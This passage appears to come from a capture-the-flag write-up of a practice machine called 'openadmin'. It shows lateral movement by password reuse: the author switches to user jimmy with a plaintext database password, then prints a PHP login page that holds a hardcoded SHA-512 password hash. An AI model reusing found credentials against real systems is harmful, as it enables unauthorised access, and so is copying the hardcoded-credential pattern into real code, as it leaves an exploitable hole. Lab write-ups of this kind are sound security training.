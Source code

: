 ```sh
+----+----------+----------------------------------+-------+---------------------+---------------------+
2 rows in set (0.00 sec)
```


I was hoping to find one of the other user's credentials here, but that was not the case. I searched for a while and eventually tried the password I found for SQL with jimmy and joanna. I was able to login as jimmy using this password.

```sh
www-data@openadmin:/home$ su jimmy
su jimmy
Password: n1nj4W4rri0R!

jimmy@openadmin:/home$ 
```


# Shell as Jimmy



Knowing that I now had access to /var/www/internal/ I went there and found 3 files, index.php contained a hardcoded hash along with the username jimmy. I shortened the output a bit.

```sh
jimmy@openadmin:/var/www/internal$ ls -al
ls -al
total 20
drwxrwx--- 2 jimmy internal 4096 Nov 23  2019 .
drwxr-xr-x 4 root  root     4096 Nov 22  2019 ..
-rwxrwxr-x 1 jimmy internal 3229 Nov 22  2019 index.php
-rwxrwxr-x 1 jimmy internal  185 Nov 23  2019 logout.php
-rwxrwxr-x 1 jimmy internal  339 Nov 23  2019 main.php
jimmy@openadmin:/var/www/internal$ cat index.php
cat index.php
<?php
   ob_start();
   session_start();
?>

................

   <body>

      <h2>Enter Username and Password</h2>
      <div class = "container form-signin">
        <h2 class="featurette-heading">Login Restricted.<span class="text-muted"></span></h2>
          <?php
            $msg = '';

            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
         ?>
      </div> <!-- /container -->

```